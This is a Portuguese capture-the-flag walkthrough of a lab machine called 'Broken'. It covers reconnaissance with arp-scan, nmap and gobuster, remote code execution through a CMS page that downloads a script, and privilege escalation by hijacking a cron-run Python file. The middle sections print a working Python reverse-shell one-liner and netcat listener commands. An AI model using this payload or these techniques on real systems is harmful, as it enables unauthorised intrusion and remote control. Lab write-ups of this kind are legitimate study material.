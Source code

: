1) Máquina importada no VirtualBox, executo o arp-scan para ver o endereço IP:
```
root@parrot:~# arp-scan --interface=eth0 192.168.56.0/24
Interface: eth0, type: EN10MB, MAC: 08:00:27:79:a6:a0, IPv4: 192.168.56.105
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:00       (Unknown: locally administered)
192.168.56.100  08:00:27:7c:9f:5d       PCS Systemtechnik GmbH
192.168.56.104  08:00:27:3d:f6:30       PCS Systemtechnik GmbH

7 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.975 seconds (129.62 hosts/sec). 3 responded
```
Está rodando no endereço de final 104.

2) Rodo o nmap para verificar as portas e serviços:
```
root@parrot:~# nmap -p- -sV -sC -T5 -A -oN nmap_broken 192.168.56.104
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-15 14:22 -03
Nmap scan report for broken (192.168.56.104)
Host is up (0.00046s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 7e:f3:33:8c:be:0c:ed:d7:0e:c6:67:cc:73:bf:c0:ab (RSA)
|   256 ee:ed:74:02:0d:3f:7d:6d:45:aa:ff:f3:3a:d0:1a:d9 (ECDSA)
|_  256 d1:18:a9:ef:7f:b6:c8:a9:30:52:c8:e6:b6:ec:64:80 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: hacked
MAC Address: 08:00:27:3D:F6:30 (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms broken (192.168.56.104)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.70 seconds
```

Duas portas comuns em CTF's, 22 rodando ssh e a 80 um serviço web. De pronto identifico que é uma versão bem recente do OpenSSH, não lembro de ter lido nada a respeito de nenhuma falha relevante de segurança, parto para o serviço web.

3) Com o intuito de identificar as URL's que estão executando sob o Apache, executo o gobuster:
```
root@parrot:~# gobuster dir -u http://192.168.56.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_broken
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.104
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 14:26:36 Starting gobuster
===============================================================
/images (Status: 301)
/cms (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
===============================================================
2020/08/15 14:27:49 Finished
```
Checo o que está respondendo no contexto /cms. Tem um botão, eu clico e... Curioso testo uma possível abertura para Path Traversal ou Command Injection e recebo a primeira flag:

<print>

4) Executo novamente o gobuster a partir de /cms:

```
root@parrot:~# gobuster dir -u http://192.168.56.104/cms -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_broken_cms
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.104/cms
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 14:30:30 Starting gobuster
===============================================================
/cc (Status: 301)
===============================================================
2020/08/15 14:31:34 Finished
===============================================================
```
Checo o novo contexto identifico e me deparo com a seguinte página:

<print>

Uau, será que podemos hackear qualquer servidor passando IP/porta? Vamos testar, executo um listener via netcat, coloco meu endereço IP e a porta que estou executando e clico em 'hack':
```
root@parrot:~# nc -nlvp 31337
listening on [any] 31337 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.104] 50500
GET /5eeea87977793dc143b995f6a104d62d.sh HTTP/1.0
Host: 192.168.56.105:31337
Connection: close
```
Interessante, ele tentou um GET no meu endereço buscando esse .sh. Bom, o que podemos fazer? Vamos reproduzir o que ele busca, crio um '5eeea87977793dc143b995f6a104d62d.sh' com um shell reverso:
```
root@parrot:/tmp/broken# cat 5eeea87977793dc143b995f6a104d62d.sh
#!/bin/bash

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.105",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Subo um servidor web via python para ele buscar o .sh e mantenho um listener netcat com a porta que adicionei na linha do shell reverso. Clico novamente em 'hack' e:
```
root@parrot:~# nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.104] 59902
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html/cms/cc
```
Estou dentro! Agora vamos continuar caçando.

5) Vou ao /home e encontro o diretório da alice, lá consigo mais uma flag. Lá também tem uma nota com o seguinte conteúdo:

Alice,

Please do not install TrustMeCMS, I need check the source before

PS: I created a script to clear apache log during the tests

root

Ok senhor root, obrigado pela informação.

6) Ainda na home da alice tem um diretório chamado 'script', dentro dele um script em python e um .log, interessante.

7) Rodo o linpeas.sh e não vejo nada de interessante na saída, ao executar o pspy64 para checar se existe algo agendado, eis que:
```
2020/08/15 00:08:01 CMD: UID=0    PID=23585  | /bin/sh -c sudo -u alice python /home/alice/script/log.py
2020/08/15 00:08:01 CMD: UID=0    PID=23587  | sudo -u alice python /home/alice/script/log.py
```
Bom, acho que a partir daí vou escalar os meus privilégios.

8) Para a minha surpresa ao voltar ao diretório 'script' tenho permissão de gravação, bom, vou substituir o arquivo log.py pelo MEU log.py :)

9) Faço a substituição com o mesmo script que utilizei como shell reverso (organizado com os imports e as outras linhas ordenadas), configuro novamente um listener via netcat e aguardo o agendamento:
```
$ whoami
whoami
alice
```
Ótimo, agora sou a alice rsrs.

10) Agora tenho permissão de acesso a um diretório que antes não conseguia abrir, o 'backup'. A, e tem outra flag lá.

11) Em mais uma nota do senhor root ele diz o seguinte:
```
Alice we have been hacked !

Please put the path of the website backup directory in path.txt, my bot will do the rest

thx

root
```
Agora te peguei! Adiciono o /root no path.txt e pouco tempo depois tenho o diretório do root no backup, lá dentro tem a última flag:
```
Congratulation for the root flag !

     _________
    / ======= \
   / __________\
  | ___________ |
  | | -root-  | |
  | |         | |
  | |_________| |_____________________________________________________________________
  \=____________/                     enjoyed this VM ?                               )
  / """"""""""" \                     I love bitcoin                                 /
 / ::::::::::::: \           1Ba6vFEamUenzrXr4scGQ8QLya7t7zYZ1S                  =D-'
(_________________)
```

Bem divertido, obrigado EuSecuinfo pela box.
